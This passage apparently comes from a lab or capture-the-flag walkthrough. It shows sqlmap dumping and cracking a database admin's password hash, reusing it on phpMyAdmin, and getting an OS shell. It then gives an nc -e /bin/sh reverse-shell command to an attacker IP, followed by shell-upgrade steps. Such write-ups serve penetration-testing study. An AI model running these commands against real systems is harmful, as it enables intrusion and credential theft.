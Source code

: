 * **— passwords:** Enumerate DBMS users password hashes

We get back the following result showing that not only did it find a password hash for the user DBadmin but it also cracked it.

![](https://miro.medium.com/max/1410/1*RrYP2A1EKGidTjgMswqUwA.png)

We can try this password on the _phpMyAdmin_ page.

![](https://miro.medium.com/max/1426/1*E5mZJFRcoEFZKu1c3JNaLw.png)

We’re in! Before I try to get command execution through the phpMyAdmin console, there’s another cool feature in SQLMap that will try to get a shell on the host running the web server.

```text
sqlmap -v 4 --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --os-shell -r request.txt
```

* **— os-shell:** Prompt for an interactive operating system shell

![](https://miro.medium.com/max/1411/1*coZ8IlW9wPF4tOjHPyHKUg.png)

We have a shell! This goes to show how powerful this tool is, which is probably why it’s not allowed on the OSCP.

From here, we’ll send a reverse shell back to us. First, set up a listener on the attack machine.

```text
nc -nlvp 1234
```

Then visit [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), and get a bash reverse shell.

```text
nc -e /bin/sh 10.10.14.12 1234
```

Run the above command in the SQLMap shell.

![](https://miro.medium.com/max/781/1*ezN5fuPPIpY_LGGFNLf8LQ.png)

We get a shell! Let’s upgrade it to a better shell.

```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.
